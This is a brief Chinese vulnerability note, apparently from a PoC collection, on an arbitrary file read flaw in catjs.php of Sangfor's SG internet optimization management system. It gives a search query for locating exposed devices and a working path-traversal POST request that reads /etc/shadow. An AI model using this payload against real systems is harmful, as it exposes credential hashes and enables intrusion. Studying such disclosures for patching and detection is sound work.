

# 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 漏洞描述

深信服 SG上网优化管理系统 catjs.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

深信服 SG上网优化管理系统

## 网络测绘

```
title=="SANGFOR上网优化管理"
```

## 漏洞复现

登陆页面


验证POC

```
POST /php/catjs.php

["../../../../../../etc/shadow"]
```

